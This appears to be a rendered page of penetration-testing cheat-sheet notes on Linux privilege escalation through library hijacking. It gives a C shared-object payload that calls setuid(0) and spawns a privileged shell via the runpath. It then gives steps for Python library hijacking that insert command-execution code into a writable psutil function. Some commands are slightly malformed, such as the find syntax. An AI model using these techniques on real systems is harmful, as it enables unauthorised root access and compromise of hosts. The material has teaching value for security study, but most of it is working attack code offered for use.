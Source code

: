 ````

  void < NomFonctionManquante | dbquery>() {
      printf("Malicious library loaded\n");
      setuid(0);
      system("/bin/sh -p");
  }
  ```

- put in the runpath
  - ```bash
    gcc src.c -fPIC -shared -o < RunPath/objectName | /development/libshared.so>
    ```
- run the file or binary

###### Python Library Hijacking

There are three basic vulnerabilities where hijacking can be used:

1.  Wrong write permissions
2.  Library Path
3.  PYTHONPATH environment variable

- Wrong permission

  1. Find file permissions
     ```bash
     # check files which have SUID ( read ) SGID ( write) permissions
     find . -perm /4000 | /2000 | /6000
     ls -la
     ```
  2. Read python source code
  3. Search vulnerable functions
     ```bash
     grep -r "< functionName | def virtual_memory>" < FunctionLibraryInternPath | /usr/local/lib/python3.8/dist-packages/psutil/*>
     ```
  4. list vulnerable functions source file permissions
     ```bash
     ls -l <VulnerableFunctionSourceFilePath>
     ```
  5. Modify function by inserting a reverse shell to our main device

     ```python
     import os
     os.system('id')


     # or
     while True:
     user_input = input("Enter a command (or 'exit' to quit): ")

     if user_input.lower() == "exit":
         break

     try:
         output = os.popen(user_input).read()
         print(output)
     except Exception as e:
         print(str(e))
     ```

    <br/>

````